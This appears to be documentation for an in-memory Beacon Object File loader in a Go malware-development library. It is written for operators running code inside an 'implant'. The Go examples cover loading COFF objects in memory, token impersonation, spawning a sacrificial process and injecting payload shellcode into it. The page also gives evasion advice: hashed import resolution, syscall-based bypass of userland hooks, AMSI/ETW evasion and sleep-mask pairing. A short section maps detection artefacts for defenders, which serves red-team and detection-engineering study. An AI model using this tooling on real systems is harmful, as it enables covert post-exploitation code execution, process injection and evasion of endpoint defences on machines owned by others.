

# BOF (Beacon Object File) loader

[← runtime index](README.md) · [docs/index](../../index.md)

## TL;DR

You have a `.o` file (compiled C object) — typically a public
BOF from TrustedSec / Outflank / FortyNorth (whoami, situational
awareness, file ops). You want to run it inside your implant
without spawning a child process. This package loads + executes
the COFF in memory.

| You want to… | Use | Notes |
|---|---|---|
| Run a BOF from disk | [`Run`](#run) | Loads `.o`, parses COFF, resolves Beacon API, executes |
| Run a BOF from memory | [`RunBytes`](#runbytes) | When the BOF was decrypted in-process and never landed on disk |
| Pass arguments to the BOF (parsed via `BeaconData*`) | `Config.Args` | Variadic — the BOF's `BeaconDataInt` / `BeaconDataPtr` etc. consume them |

What this DOES achieve:

- Public BOFs (TrustedSec/CS-Situational-Awareness-BOF,
  TrustedSec/CS-Remote-OPs-BOF, Outflank/C2-Tool-Collection)
  run unmodified.
- Beacon API stubs implemented in Go — no Cobalt Strike needed
  on the operator side.
- Dynamic imports (`KERNEL32`, `ADVAPI32`, …) resolve through
  PEB + ROR13 hash, so the BOF's import table doesn't appear
  as plaintext strings.

What this does NOT achieve:

- **x64 only** — no x86, no ARM64.
- **Doesn't sandbox** — BOF runs in your process address space.
  Crash in the BOF = crash in your implant.
- **AMSI / ETW telemetry from the BOF still fires** — pair
  with [`evasion/preset.Stealth`](../evasion/preset.md) before
  `Run`.

## Primer

A BOF is a relocatable COFF (`.o`) object compiled by MSVC /
MinGW. The format is the same as Linux's `.o` but for Windows
PE-style relocations. BOFs were popularised by Cobalt Strike's
`inline-execute` command — a tactical execution primitive that
runs a small piece of native code inside the implant's process
without spawning a fresh process or writing a PE to disk.

Use cases:

- Run small Windows-API-heavy snippets (token enum, share
  enum, share scan) that don't need a full PE infrastructure.
- Distribute compiled techniques as a `.o` artefact rather
  than a full implant.
- Compose with the implant's runtime — the BOF runs in the
  caller's address space, so it can interact with implant
  state directly.

## How It Works



## API → godoc

[`pkg.go.dev/github.com/oioio-space/maldev/runtime/bof`](https://pkg.go.dev/github.com/oioio-space/maldev/runtime/bof) is the authoritative
reference for every exported symbol. This page teaches the
*concepts*; the godoc is the *specification*.

## Examples

### Simple — load + execute

```go
import (
    "os"

    "github.com/oioio-space/maldev/runtime/bof"
)

data, _ := os.ReadFile("whoami.o")
b, err := bof.Load(data)
if err != nil {
    return
}
output, _ := b.Execute(nil)
fmt.Println(string(output))
```

### Composed — chain multiple BOFs

```go
for _, path := range []string{"whoami.o", "netstat.o", "tasklist.o"} {
    data, _ := os.ReadFile(path)
    b, err := bof.Load(data)
    if err != nil {
        continue
    }
    out, _ := b.Execute(nil)
    fmt.Printf("=== %s ===\n%s\n", path, out)
}
```

### Advanced — pack arguments via `Args`

```go
data, _ := os.ReadFile("parse_args.o")
b, _ := bof.Load(data)

a := bof.NewArgs()
a.AddInt(42)
a.AddString("hello-args")

out, _ := b.Execute(a.Pack())
fmt.Println(string(out))
```

The wire format is little-endian to match the Cobalt Strike
canonical: TrustedSec COFFLoader, Outflank etc. read length
prefixes via `memcpy` into a native `int`, which on x64 is a
little-endian load. Use `AddInt` / `AddShort` for fixed-width
ints, `AddString` for length-prefixed NUL-terminated strings,
`AddBytes` for raw blobs.

### Architecture routing — detect x86 vs x64 cleanly (slice 1.d phase A, v0.155+)

`bof.Run` sniffs the COFF `Machine` field and dispatches: x64
runs in-process, x86 returns the sentinel
`bof.ErrCrossArchX86Unsupported` so callers can branch on
architecture without parsing the file themselves.

```go
import (
    "context"
    "errors"
    "os"

    "github.com/oioio-space/maldev/runtime/bof"
)

data, _ := os.ReadFile(bofPath)
res, err := bof.Run(context.Background(), bof.Spec{Bytes: data})
switch {
case err == nil:
    fmt.Println(string(res.Output))
case errors.Is(err, bof.ErrCrossArchX86Unsupported):
    // 32-bit .o detected. In a v0.155-era implant, this means
    // the fork-and-run orchestrator (slice 1.d phase B/C)
    // hasn't shipped yet. Skip the BOF, log it, or fall back
    // to a separate 32-bit implant. The detection at least
    // never silently no-ops.
    log.Printf("skip %s: x86 BOF not yet supported", bofPath)
default:
    log.Printf("bof.Run failed: %v", err)
}
```

`bof.DetectKind(data)` is also exported if a caller wants to
classify the bytes without running them — handy for triage
tools that enumerate a public corpus before execution.

### Token impersonation + spawn-and-inject

The slice-1 surface lets a CS BOF impersonate, spawn a sacrificial
target, and inject without any extra glue:

```go
b, _ := bof.Load(coffBytes)
b.SetSpawnTo(`C:\Windows\System32\notepad.exe`)
b.SetUserData(payloadShellcode) // optional, surfaced via BeaconGetCustomUserData

out, _ := b.Execute(nil)
// The BOF internally calls:
//   BeaconUseToken(handle)             → ImpersonateLoggedOnUser
//   BeaconSpawnTemporaryProcess(...)   → CreateProcess suspended
//   BeaconInjectTemporaryProcess(...)  → write + CreateRemoteThread + Resume
//   BeaconRevertToken()                → RevertToSelf
fmt.Println(string(out))
```

Execute pins the goroutine to its OS thread for the entire call, so the
impersonation in step 1 is honoured by the syscalls the BOF issues in
later steps.

### Reuse — prepare once, run many (v0.153.0+)

A single `*BOF` can be `Execute`'d any number of times. The
expensive load work runs lazily on the first call and is cached
on the BOF; subsequent calls skip straight to the entry point.

**Cost breakdown per call:**

| Phase | First Execute | Subsequent Execute |
|---|---|---|
| Parse sections | ✓ | — |
| VirtualAlloc + section copy | ✓ | — |
| Resolve imports (PEB walk × N) | ✓ | — |
| Apply relocations | ✓ | — |
| VirtualProtect RW→RX | ✓ | — |
| Reset writable sections (if not persistent) | — | ✓ (cheap) |
| Call entry | ✓ | ✓ |

```go
import "github.com/oioio-space/maldev/runtime/bof"

bytes, _ := os.ReadFile("whoami.o")
b, _ := bof.Load(bytes)
defer b.Close() // releases the cached VirtualAlloc mapping

// First call: full parse + alloc + reloc + execute.
out1, _ := b.Execute(nil)
fmt.Println(string(out1))

// Second call: reuses the mapping, just re-runs the entry.
out2, _ := b.Execute(nil)
fmt.Println(string(out2))
```

#### `Close()` — release the cached mapping

```go
b, _ := bof.Load(bytes)
out, _ := b.Execute(nil)
if err := b.Close(); err != nil {
    log.Printf("Close: %v", err)
}

// After Close, Execute returns an error rather than crashing.
_, err := b.Execute(nil)
if err != nil {
    // "runtime/bof: Execute on closed BOF"
}
```

`Close` is **idempotent** — multiple calls are safe. A
`runtime.SetFinalizer` in `Load` is a safety net for callers
who forget Close, but Go finalizer timing isn't guaranteed:
long-lived implants should Close explicitly to free the
VirtualAlloc'd RWX region in a timely fashion.

### `SetPersistent` — stateful vs stateless BOFs (v0.153.0+)

`SetPersistent` arbitrates whether writable sections (`.data`,
`.bss`, `.rdata-with-writes`) are restored between Execute
calls.

| Mode | Behaviour | Suits |
|---|---|---|
| `false` (default) | Each Execute restores writable sections to their initial bytes | Stateless BOFs — `hello_beacon`, `parse_args`, `realworld_calls`, most CS-SA-BOF corpus |
| `true` | Writable sections retain whatever the BOF wrote on the previous Execute | Stateful BOFs that intentionally cache cross-call state in `.data` — Fortra No-Consolation's `LIBS_LOADED` cache + handle-info struct |

**Must be called before the first Execute** — see
`ErrAlreadyPrepared`.

#### Stateless (default) — every call sees fresh memory

```go
b, _ := bof.Load(parseArgsBytes)
defer b.Close()

// .data globals zero'd before each Execute. The BOF observes
// the same initial state on every call regardless of what
// previous calls wrote.
for _, arg := range []string{"alice", "bob", "carol"} {
    a := bof.NewArgs(); a.AddString(arg)
    out, _ := b.Execute(a.Pack())
    fmt.Printf("%s → %s\n", arg, out)
}
```

#### Persistent — share state across Execute calls

```go
b, _ := bof.Load(noConsolationBytes)
defer b.Close()

if err := b.SetPersistent(true); err != nil {
    // SetPersistent before Execute always succeeds — error
    // means the caller flipped it AFTER the first Execute,
    // which is a contract violation (ErrAlreadyPrepared).
    log.Fatal(err)
}

// Iteration 1: No-Consolation cold-loads all DLL dependencies,
// stores their handles in LIBS_LOADED (a .data global) via
// BeaconAddValue.
b.Execute(packArgs(pe1))

// Iteration 2: LIBS_LOADED is still warm — the BOF skips the
// LoadLibrary chain entirely.
b.Execute(packArgs(pe2))
```

#### `SetPersistent` after Execute → `ErrAlreadyPrepared`

```go
b, _ := bof.Load(bytes)
defer b.Close()
b.Execute(nil) // runs prepare() — locks the persistence mode

if err := b.SetPersistent(true); errors.Is(err, bof.ErrAlreadyPrepared) {
    // Expected: flipping the mode after prepare would leave
    // the writable-section snapshots inconsistent. Decide at
    // Load time which mode you want.
}
```

### `SetSacrificialThread` — crash isolation (v0.154.0+)

By default a BOF runs on the **same OS thread** as the implant.
A wild pointer deref, stack overflow, or busted relocation
inside the BOF triggers a Windows SEH exception that
propagates through Go's runtime handler and ends in
`TerminateProcess` — **the implant dies with the BOF**.

`SetSacrificialThread(timeout)` enables crash isolation: the
BOF runs on a dedicated thread, a process-wide Vectored
Exception Handler intercepts faults whose address lies inside
the BOF mapping, redirects the faulting thread to an
`ExitThread(1)` stub, and the host `Execute` call returns a
clean Go error. The implant keeps running.

| Mode | When BOF AVs | Host process |
|---|---|---|
| Inline (default, current) | SEH → Go runtime → TerminateProcess | dies with the BOF |
| Sacrificial (`SetSacrificialThread > 0`) | VEH catches in-mapping fault → ExitThread → host gets `error` | survives |

#### Honest limitations

1. **Token impersonation does not cross threads.** `BeaconUseToken`
   impersonates on the BOF's sacrificial thread; the host
   goroutine keeps its original token. BOFs that rely on
   chained token state across calls are not compatible with
   sacrificial mode.
2. **Only faults inside the BOF mapping are caught.** A BOF
   that passes a NULL pointer to `kernel32!HeapAlloc` takes
   the fault inside kernel32 — outside the BOF range — and
   still terminates the implant. The VEH range check is on
   `ExceptionAddress`, not on the calling BOF.
3. **`TerminateThread` (used on timeout) leaks** the thread's
   stack + any kernel objects it held. Windows-design
   limitation. Set timeouts generously; this is a last-resort
   kill, not a routine cancellation primitive.

#### Inline (default) — same thread, fastest

```go
b, _ := bof.Load(coffBytes)
defer b.Close()

// SetSacrificialThread NOT called → inline path.
// If this BOF AVs, the implant dies.
out, _ := b.Execute(args)
```

#### Sacrificial — implant survives BOF crashes

```go
b, _ := bof.Load(coffBytes)
defer b.Close()

// 5-second wall-clock cap. Zero would disable.
if err := b.SetSacrificialThread(5 * time.Second); err != nil {
    log.Fatal(err) // ErrAlreadyPrepared if called after Execute
}

out, err := b.Execute(args)
switch {
case err == nil:
    // Happy path — BOF returned normally.
    fmt.Println(string(out))
case strings.Contains(err.Error(), "BOF crashed with exception"):
    // BOF AVed / stack-overflowed / executed an illegal
    // instruction inside its own mapping. Implant is still
    // alive; err carries the exception code + faulting PC.
    log.Printf("BOF crash isolated: %v", err)
case strings.Contains(err.Error(), "BOF timeout"):
    // BOF ran longer than the timeout; the sacrificial
    // thread was terminated. Output captured up to the
    // timeout is in `out`.
    log.Printf("BOF timeout, partial output: %s", out)
default:
    // Other Execute error — usually a Load/prepare problem
    // surfaced lazily on the first call.
    log.Fatal(err)
}
```

#### Mixing knobs

The three knobs are independent — pick what fits your
threat model:

```go
b, _ := bof.Load(realworldCallsBytes)
defer b.Close()

b.SetSpawnTo(`C:\Windows\System32\notepad.exe`)
b.SetUserData(payload)            // surfaced via BeaconGetCustomUserData
b.SetPersistent(false)            // default — fresh .data per call
b.SetSacrificialThread(30 * time.Second) // implant survives crashes

for _, target := range targets {
    out, err := b.Execute(packArgs(target))
    if err != nil {
        // Whatever the BOF does inside, this `err` is
        // recoverable: bad BOF code, bad target, timeout.
        // The implant doesn't die.
        log.Printf("%s: %v", target, err)
        continue
    }
    process(out)
}
```

## OPSEC & Detection

| Artefact | Where defenders look |
|---|---|
| `VirtualAlloc(RWX)` followed by EXECUTE from the alloc | Behavioural EDR — high-fidelity reflective-loader signal |
| Module-load events for non-stack `.text` regions | ETW Microsoft-Windows-Threat-Intelligence |
| BOF entry-point execution from non-image memory | Defender for Endpoint MsSense |

**D3FEND counters:**

- [D3-PA](https://d3fend.mitre.org/technique/d3f:ProcessAnalysis/) — RWX execute-from-allocation telemetry.
- [D3-FCA](https://d3fend.mitre.org/technique/d3f:FileContentAnalysis/) — YARA on the loaded bytes.

**Hardening for the operator:**

- Allocate `RW` then `RX` via `VirtualProtect` instead of
  `RWX` — defeats the simplest RWX-watcher rules.
- Encrypt the BOF at rest via [`crypto`](../crypto/README.md);
  decrypt + load + immediately re-encrypt the source buffer.
- Pair with [`evasion/sleepmask`](../evasion/sleep-mask.md)
  for cleartext-at-rest mitigation.

## MITRE ATT&CK

| T-ID | Name | Sub-coverage | D3FEND counter |
|---|---|---|---|
| [T1059](https://attack.mitre.org/techniques/T1059/) | Command and Scripting Interpreter | partial — in-memory native code execution | D3-PA |
| [T1620](https://attack.mitre.org/techniques/T1620/) | Reflective Code Loading | full — COFF reflective load | D3-FCA, D3-PA |

## Limitations

- **Execute is amortised, not free (v0.153+).** The first call
  on a `*BOF` runs the full loader pass (parse + `VirtualAlloc` +
  relocations + RX flip). Subsequent calls reuse the mapping —
  ideal for callers like `runtime/pe` that load one `.o` and
  run it many times. **Caller responsibility:** call `Close()`
  explicitly when done. The `runtime.SetFinalizer` safety net
  in `Load` will eventually `VirtualFree`, but Go finalizer
  timing isn't guaranteed; long-lived implants leaking mapped
  RWX is a real liability.
- **Default Execute is stateless.** Writable sections (`.data`,
  `.bss`, `.rdata-with-writes`) are restored to their initial
  bytes between Execute calls. BOFs that intentionally cache
  state in their `.data` (No-Consolation's `LIBS_LOADED` cache)
  need `SetPersistent(true)` before the first Execute.
- **Beacon-API surface — full 28-symbol set (slice 1, v0.151+).**
  All `beacon.h` groups are wired:
  - **Data parsing**: `BeaconDataParse` / `DataInt` / `DataShort` /
    `DataLength` / `DataExtract`.
  - **Output / format**: `BeaconPrintf` + `BeaconFormatPrintf`
    (format string forwarded verbatim — varargs caveat below),
    `BeaconOutput`, `BeaconFormatAlloc` / `Reset` / `Free` /
    `Append` / `Int` / `ToString`, `BeaconErrorD` / `ErrorDD` /
    `ErrorNA`.
  - **Tokens**: `BeaconUseToken` (`ImpersonateLoggedOnUser`) /
    `BeaconRevertToken` (`RevertToSelf`). Execute pins the
    goroutine to its OS thread for the BOF call so the
    impersonation is honoured by subsequent Win32 calls; we
    `RevertToSelf` on Execute exit as a safety net.
  - **Injection**: `BeaconInjectProcess` (VirtualAllocEx +
    WriteProcessMemory + CreateRemoteThread on a host handle),
    `BeaconSpawnTemporaryProcess` (`CreateProcess` suspended on
    the configured SpawnTo — `rundll32.exe` by default),
    `BeaconInjectTemporaryProcess` (spawn + inject + resume,
    teardown on failure), `BeaconCleanupProcess` (terminate +
    close).
  - **Helpers**: `BeaconIsAdmin`, `BeaconGetCustomUserData`
    (blob configured via `(*BOF).SetUserData`), `toWideChar`
    (UTF-8 → UTF-16LE, NUL-terminated).
  - **Key-value store**: `BeaconAddValue` / `BeaconGetValue` /
    `BeaconRemoveValue`. Scope is the single Execute call —
    cross-Run state must go through the implant.
  Any unknown `__imp_Beacon*` import still fails at relocation
  time with `unresolved external symbol __imp_BeaconXxx` — loud
  and traceable rather than silent NULL-patching.
- **BeaconFormatAlloc buffers live one Execute call.** Slices
  produced by `BeaconFormatAlloc` are held on the `*BOF`
  (per-instance map, not a process-global). `BeaconFormatFree`
  drops the entry; whatever the BOF forgets to free is reclaimed
  automatically when the next `Execute` starts and on `Close()`.
  A BOF that crashes mid-call no longer leaks its format buffer
  for the process lifetime.
- **SEH unwind via `RtlAddFunctionTable`.** Every COFF with a
  non-empty `.pdata` section gets its RUNTIME_FUNCTION entries
  registered with the kernel during `prepare` so the OS unwinder
  can resolve frames inside the BOF mapping. Without this, a BOF
  that raises a structured exception (C++ `throw`, compiler-
  emitted bounds check, `RaiseException`) would abort during the
  unwind walk — the kernel could not find a function entry for
  the BOF's PC. Registration is silent on failure (malformed
  `.pdata` → the BOF still runs, just without SEH support).
  `Close` calls `RtlDeleteFunctionTable` before `VirtualFree`
  to avoid leaving dangling unwind context.
- **Cross-process Beacon API routes via optional `*wsyscall.Caller`.**
  `BeaconInjectProcess` and the spawn/inject combos use
  `VirtualAllocEx` + `WriteProcessMemory` + `CreateRemoteThread`
  by default. Operators that need to bypass userland hooks on
  these kernel32 surfaces call
  [`(*BOF).SetCaller`](https://pkg.go.dev/github.com/oioio-space/maldev/runtime/bof#BOF.SetCaller)
  with any `*wsyscall.Caller` (direct / indirect / indirect-asm /
  hells-gate). The helpers (`beaconRemoteAlloc`,
  `beaconRemoteWrite`, `beaconRemoteCreateThread`) then route
  through `NtAllocateVirtualMemory` / `NtWriteVirtualMemory` /
  `NtCreateThreadEx`. nil Caller keeps the kernel32 path —
  matches the convention used across [`inject`](../injection/README.md).
- **Pointer-safety probes on `%s` / Beacon string reads.**
  `BeaconPrintf("%s", p)` (and any callback that dereferences a
  BOF-supplied `char*` / `wchar_t*`) routes through
  [`win/api.CStringFromPtr`](https://pkg.go.dev/github.com/oioio-space/maldev/win/api#CStringFromPtr)
  and [`win/api.WStringFromPtr`](https://pkg.go.dev/github.com/oioio-space/maldev/win/api#WStringFromPtr).
  Both call `VirtualQuery` once to clamp the walk to the
  committed region containing the pointer, so a malformed,
  freed, or guard-page-crossing pointer returns `""` instead of
  faulting the host. The wide-string heuristic in
  `expandCFormat` shares the same probe via `SafeRegionBytes`.
- **`BeaconPrintf` / `BeaconFormatPrintf` varargs are not
  expanded.** `syscall.NewCallback` binds a fixed-arity Go
  function as a stdcall callback; Go cannot introspect cdecl
  varargs from inside the callback. We chose option **(a)**
  in the design discussion: forward the format string verbatim.
  BOFs that pass a literal format with no `%` directives
  behave correctly; BOFs relying on `printf`-style expansion
  see the format string raw.

  Two alternatives were considered and rejected for the default
  build:

  - **(b) Leave `__imp_BeaconPrintf` / `BeaconFormatPrintf`
    unresolved** so BOFs that depend on varargs fail at load
    time with a loud error. Honest but breaks compatibility
    with the large TrustedSec / Outflank corpus where
    `BeaconPrintf(CALLBACK_OUTPUT, "...")` is used as a
    no-args writer in 80% of cases.

  - **(c) Implement varargs via cgo.** A C wrapper around
    `vsnprintf` would expand the format and call back into Go
    with the rendered string. Requires:
      1. A C cross-compile toolchain in the build environment
         (mingw-w64 on Linux dev hosts, MSVC on Windows CI).
      2. CGO_ENABLED=1 — flips the entire library out of pure-Go
         mode, which the README sells as a hard guarantee.
      3. A different binary surface in `runtime/bof` for cgo vs.
         pure-Go builds, plus a build-tag matrix.

    The cost is steep relative to the gain (a minority of BOFs).
    Operators who need full vararg expansion can fork the
    package, drop a `bof_cgo_windows.go` file behind
    `//go:build windows && cgo && bof_cgo`, and supply a C-side
    `vsnprintf` wrapper they register via a hook hung off
    `resolveBeaconImport`. That extension point is intentionally
    left open; the default build prioritises pure-Go and
    accepts the verbatim-format trade-off.
- **External Win32 imports — two forms supported.**
  CS-canonical dollar-form (`__imp_KERNEL32$LoadLibraryA`)
  resolves via `parseDollarImport` → `api.ResolveByHash` (PEB
  walk + ROR13 module/function hash, no `GetProcAddress` /
  `LoadLibrary` call appears in the API trail). Mingw-w64 bare
  form (`__imp_LoadLibraryA` with no DLL prefix) resolves by
  walking a curated module list — kernel32, advapi32, user32,
  ws2_32, ole32, shell32 — first hit wins. Symbols not in the
  curated set still fail loudly. Add a module to
  `bareImportSearchOrder` in `beacon_api_windows.go` if a
  particular BOF needs more coverage.
- **Concurrency: BOF execution is serialised package-wide.** The
  Beacon API stubs read a single `currentBOF` pointer guarded
  by `bofMu`. Concurrent `Execute` calls — including across
  *different* `*BOF` instances — block on each other. This
  matches the CS-compatible loader convention (BOF execution is
  fundamentally single-threaded) and keeps the Beacon callback
  state coherent without per-call dispatch. Implications:

  - **Setters (`SetUserData`, `SetSpawnTo`, `SetSpawnToX86`,
    `SetCaller`, `SetPersistent`, `SetSacrificialThread`) are
    NOT lock-protected.** They are safe to call before the
    first `Execute` or between `Execute` calls; calling them
    from a host goroutine while a sacrificial-thread Execute
    is in flight is a race the package does not currently
    guard against. The future Bundle-C per-`*BOF` mutex will
    close that gap.
  - **`Errors()` after `Close()` returns the FINAL Execute's
    buffer**, not nil. The byte buffer is not zeroed at
    teardown — post-mortem inspection works.
  - **`syscall.NewCallback` cost at first Load.** Resolving
    the Beacon import map allocates one RX page per callback
    (~28 symbols on the default build → ≈112 KB of RX pages),
    via Go's runtime. Pages live for the process lifetime and
    show up as small VAD entries with the syscall thunk
    pattern. Identical to every Go program that uses
    `syscall.NewCallback`.
- **x86 BOFs supported via cross-process reflective load (slice
  1.d, `-tags=bof_x86_loader`).** An x86 `.o` (`Machine == 0x014c`)
  is detected as `KindCOFFx86` by `DetectKind` and routed through
  the `coffX86Loader`. With the `bof_x86_loader` build tag
  active, the orchestrator manually reflective-loads a small
  i386 DLL (`runtime/bof/internal/x86loader/bof_x86_loader.x86.dll`,
  ~11 KB) into a freshly-spawned `SysWOW64\rundll32.exe` via
  VirtualAllocEx + WriteProcessMemory + .reloc application +
  CreateRemoteThread. The loader DLL parses the BOF .o inside
  the WoW64 helper, implements the full Beacon API surface (24
  symbols incl. Inject / Spawn / Token / IsAdmin / Format /
  Data / KV / printf%), and writes captured output into a
  parent-allocated RW region the parent ReadProcessMemory's
  back. Zero disk artefacts, zero LoadLibrary call on the
  loader. Default builds (no tag) surface
  `bof.ErrCrossArchX86Unsupported` — operators `errors.Is`
  against it. See `runtime/bof/internal/x86loader/README.md`
  for the architecture diagram, ABI, and threat-model notes.
- **Relocation coverage.** `IMAGE_REL_AMD64_ABSOLUTE` (no-op),
  `_ADDR64`, `_ADDR32` (errors out cleanly when target exceeds
  32-bit range), `_ADDR32NB`, `_REL32`, and the `_REL32_1`
  through `_REL32_5` bias variants. Exotic relocations (TLS, GOT,
  `_SECTION`, `_SECREL`) are not supported — the loader fails
  with `unsupported relocation type: 0xNN` so the failure mode
  is obvious instead of a silent corruption.
- **RWX allocation is loud.** Hardened EDRs flag RWX from any
  source; pair with sleep-mask + RW→RX flip.

## See also

- [`runtime/clr`](clr.md) — sibling reflective runtime (.NET).
- [`crypto`](../crypto/README.md) — encrypt BOF at rest.
- [`evasion/sleepmask`](../evasion/sleep-mask.md) — hide BOF
  bytes at rest.
- [Operator path](../../by-role/operator.md).
- [Detection eng path](../../by-role/detection-eng.md).
